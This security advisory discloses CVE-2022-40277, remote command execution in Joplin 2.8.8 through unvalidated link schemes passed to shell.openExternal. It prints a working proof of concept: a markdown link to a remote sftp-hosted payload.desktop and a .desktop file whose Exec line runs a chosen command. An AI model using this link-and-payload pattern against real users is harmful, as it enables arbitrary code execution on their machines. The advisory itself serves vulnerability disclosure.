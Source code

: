 ```yaml
---
slug: advisories/skrillex/
title: Joplin 2.8.8  -  Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: skrillex
product: Joplin 2.8.8
date: 2022-09-12 20:30 COT
cveid: CVE-2022-40277
severity: 8.8
description: Joplin 2.8.8  -  Remote Command Execution
keywords: Fluid Attacks, Security, Vulnerabilities, Joplin
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Joplin 2.8.8  -  Remote Command Execution              |
| **Code name**         | [Skrillex](https://en.wikipedia.org/wiki/Skrillex)     |
| **Product**           | Joplin                                                 |
| **Affected versions** | Version 2.8.8                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-09-12                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40277)                        |

## Description

Joplin version 2.8.8 allows an external attacker to execute arbitrary
commands remotely on any client that opens a link in a malicious
markdown file, via Joplin. This is possible because the application
does not properly validate the schema/protocol of existing links in
the markdown file before passing them to the shell.openExternal
function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs. Here is a small example to give you a better
understanding of vulnerability.

![image](https://user-images.githubusercontent.com/51862990/189775403-75f4e110-50f0-4afb-8cd6-63dd2c651b16.png)

![image](https://user-images.githubusercontent.com/51862990/189775423-31154fd3-f95e-4072-8cad-facb1b075e0f.png)

Basically what the application is doing is sending to
shell.openExternal(url), any url present in the markdown
file.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this
distribution because in its default configuration it executes the
payload.desktop file after mounting the remote location where the
payload file is located. In other Linux distributions by default these
files are not executed once the remote location is mounted.

In the resources section I will provide you with support material so
that you can understand in greater depth what I have just explained.

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Joplin:

### exploit.md

```markdown
[exploit](sftp://user@server/uploads/payload.desktop)
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```txt
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

## Evidence of exploitation

![RCE-Joplin](https://user-images.githubusercontent.com/51862990/189775676-83553248-0452-4df4-a9c1-7b65bbbe4792.gif)

## Our security police

We have reserved the CVE-2022-40277 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Joplin 2.8.8

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/laurent22/joplin>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed="2022-09-00"
  patched=""
  disclosure="2022-09-00">
</time-lapse>
